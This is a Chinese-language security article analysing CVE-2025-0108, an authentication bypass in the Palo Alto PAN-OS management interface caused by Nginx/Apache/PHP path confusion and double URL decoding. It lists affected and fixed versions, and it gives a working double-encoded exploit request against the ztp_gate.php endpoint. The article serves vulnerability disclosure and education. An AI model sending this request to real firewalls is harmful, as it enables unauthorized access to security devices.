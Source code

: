 #  CVE-2025-0108：通过 PAN-OS Nginx/Apache 路径混淆实现的身份验证绕过漏洞 _   
 Ots安全   2025-04-03 19:23  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/bL2iaicTYdZn7gtxSFZlfuCW6AdQib8Q1onbR0U2h9icP1eRO6wH0AcyJmqZ7USD0uOYncCYIH7ZEE8IicAOPxyb9IA/640?wx_fmt=gif "")  
  
目标  
- PAN OS 10.2.x < 10.2.13-h3  
  
- PAN OS 11.0.x < 11.1.6-h1  
  
- PAN OS 11.2.x < 11.2.4-h4  
  
解释  
  
CVE-2025-0108是在 Palo Alto Networks PAN-OS 防火墙管理界面中发现的一个身份验证绕过漏洞。它是由 Assetnote 研究团队在分析CVE-2024-0012 和 CVE-2024-9474补丁时发现的。  
  
先前的漏洞（CVE-2024-0012 和 CVE-2024-9474）被攻击者利用，通过禁用 PAN-OS 防火墙来获取 root 权限，而研究团队在分析这些漏洞的修补过程时，发现 PAN-OS 管理界面中存在一个漏洞，这导致了新的身份验证绕过漏洞 CVE-2025-0108。  
  
该漏洞是通过利用Nginx → Apache → PHP 的复杂身份验证处理过程中出现的路径混淆和双重 URL 解码问题  
  
来绕过身份验证的。 PAN-OS 的管理界面通过以下方式处理 Web 请求：  
  
1. Nginx 步骤  
  
接收客户端的请求并  
X-pan-AuthCheck设置标头以确定是否需要身份验证。此后，包含特定路径（包括）  
/unauth/的请求可以被视为不需要身份验证。  
  
```
if ($uri~ ^\/unauth\/.+$) {  set$panAuthCheck'off';}
```  
  
  
这会导致/unauth/包含路径的请求X-pan-AuthCheck: off被设置并被视为不需要身份验证。  
  
2. Apache 步骤  
  
重新处理从 Nginx 转发的请求并  
mod_rewrite通过 重写特定路径。  
  
```
<Location "/">    DirectorySlashoff    RewriteEngineon    RewriteRule ^(.*)(\/PAN_help\/)(.*)\.(css|js|html|htm)$ $1$2$3.$4.gz [QSA,L]    AddEncoding gzip .gz    Options Indexes FollowSymLinks    Requireall granted</Location>
```  
  
- 当请求转发到 Apache 时，Apache 会再次解释路径并执行内部重定向。  
  
- 由于URL 需要再次解码，因此该过程可能会引入路径混淆。  
  
3. PHP 步骤  
  
根据从 Apache 传递的请求，它确定该请求是否真正经过身份验证并处理该请求。  
  
```
if (    $_SERVER['HTTP_X_PAN_AUTHCHECK'] != 'off'    && $_SERVER['PHP_SELF'] !== '/CA/ocsp'    && $_SERVER['PHP_SELF'] !== '/php/login.php'    && stristr($_SERVER['REMOTE_HOST'], '127.0.0.1') === false) {    // ... check authentication ...}
```  
  
  
如果请求传递给 PHP 应用程序  
X-pan-AuthCheck: off，则认为不需要身份验证。  
  
Apache 的路径重新解释问题  
  
Apache   
RewriteRule在处理时执行内部重定向，这涉及再次解码 URL。  
  
```
RewriteRule (.*)\.abc$ $1 [L]
```  
  
  
通过利用双重解码问题，攻击者**可以尝试使用双重 URL 编码来绕过身份验证。**  
  
攻击者可以通过发送如下请求来绕过身份验证：  
  
```
GET /unauth/%252e%252e/php/ztp_gate.php/PAN_help/x.css HTTP/1.1Host: target.firewallConnection: close
```  
  
  
  
如何处理请求  
  
1、Nginx 处理  
- %252e%252e在第一次 URL 解码中转换为  
%2e%2e( )..  
  
- /unauth/%2e%2e/php/ztp_gate.php/PAN_help/x.css因为路径/unauth/包含  
X-pan-AuthCheck: off（即不需要身份验证）而被设置  
  
2、Apache 处理  
- Apache 重新处理路径并执行内部重定向。  
  
- %2e%2e再次解码，实际请求路径  
/php/ztp_gate.php/PAN_help/x.css变为  
  
- Apache 将此请求视为普通的 PHP 执行请求  
ztp_gate.php并执行它。  
  
3、运行 PHP  
- 该请求/  
php/ztp_gate.php已被转发且  
X-pan-AuthCheck: off处于无需身份验证即可执行的状态。  
  
该漏洞已在PAN-OS 10.2.13-h3、11.1.6-h1、11.2.4-h4及后续版本中修复。  
  
  
  
感谢您抽出  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycNnFvFYVgXoExRy0gqCkqvrAghf8KPXnwQaYq77HMsjcVka7kPcBDQw/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycd5KMTutPwNWA97H5MPISWXLTXp0ibK5LXCBAXX388gY0ibXhWOxoEKBA/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycU99fZEhvngeeAhFOvhTibttSplYbBpeeLZGgZt41El4icmrBibojkvLNw/640?wx_fmt=gif "")  
  
来阅读本文  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWge7Mibiad1tV0iaF8zSD5gzicbxDmfZCEL7vuOevN97CwUoUM5MLeKWibWlibSMwbpJ28lVg1yj1rQflyQ/640?wx_fmt=gif "")  
  
**点它，分享点赞在看都在这里**  
  
  
